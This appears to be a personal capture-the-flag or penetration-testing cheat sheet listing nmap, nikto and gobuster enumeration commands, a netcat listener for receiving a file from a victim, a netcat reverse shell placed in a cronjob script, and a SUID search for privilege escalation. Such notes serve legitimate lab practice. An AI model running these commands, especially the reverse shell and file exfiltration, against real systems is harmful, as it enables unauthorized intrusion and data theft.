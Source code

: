 Enumeration:
sudo nmap \-sS \-sV \-\-script=default,vuln IP
nmap \-sV \-p\- IP \-v
nikto \-url IP
sudo nmap \-sV \-p\- IP
gobuster dir \-u [http://IP](#http://IP)
\-w /usr/share/wordlists/dirbuster/directory\-list\-2\.3\-medium\.txt \-t 100        
gobuster dir \-u [http://IP](#http://IP)
\-w /usr/share/wordlists/seclists/Discovery/Web\-Content/combined\_words\.txt   

Gobuster
\-k 				- 			disable ssl certificate checks
\-\-exclude\-length - 			ignore response length
\-b 				- 			ignore status codes

Send file from victim to attacker
nc \-nlvp 12221 \-q 1 \> FILE \< /dev/null

Cronjob script reverse shell
victim -  nc 192\.168\.0\.63 5555 \-e /bin/bash
attacker -   nc \-nlvp 5555

Privesc
find / \-perm \-4000 2\>/dev/null

Virtual Environment
python3 \-m venv venv
source venv/bin/activate
\.
\.
deactivate

Search through file
grep \-rlw "dora" \. -  searches through current directory and shows any file containing keyword
find \. \-name “flag\.txt” -  searches through current directory and shows file that matches name  